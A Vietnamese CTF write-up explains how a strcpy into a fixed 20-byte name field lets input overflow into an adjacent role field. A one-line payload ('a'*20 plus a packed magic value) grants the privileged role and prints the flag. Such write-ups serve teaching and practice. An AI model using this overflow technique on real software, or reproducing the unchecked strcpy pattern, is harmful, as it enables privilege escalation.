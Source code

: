     - Tham số truyền vào là users, admin, username thì tham số ta cần lưu ý là admin vì nó sẽ set role của admin trong hàm users_register_user, vậy giờ ta cần tìm chỗ tạo admin, nhìn lên 1 xíu ta thấy đoạn code sau:

        ```c
        // create admin
        	User* admin = user_create("admin");
        	admin->role = ROLE_ADMIN;
        ```

        - Ta xem hàm user_create nhé.

            ```c
            User* user_create(const char* name) {
            	User* user = malloc(sizeof(User));

            	strcpy(user->name, name);

            	return user;
            }
            ```

            - Ta thấy nó sẽ malloc 1 size với sizeof(User) mà User bao gồm

            ```c
            typedef struct {
            	char name[USERNAME_LEN];
            	Role role;
            } User;
            ```

            Vậy là nó sẽ malloc 1 size đủ để nhập name, và role luôn, trong đó name có size là #define USERNAME_LEN 20, vậy ta có thể set role cho user bằng bằng cách nhập role sau khi nhập 20 char name.

# Exploit

- Vậy để exploit ta chỉ cần tạo 1 user có role God, ta chỉ cần nhập input "a"*20+p32(0xBEEFCAFE) sẽ được flag.

```c
[+] Opening connection to 193.57.159.27 on port 25467: Done
[*] Switching to interactive mode
Hi, welcome to my users database.
Please enter a user to register: ractf{w0w_1_w0nD3r_wH4t_free(admin)_d0e5}
```
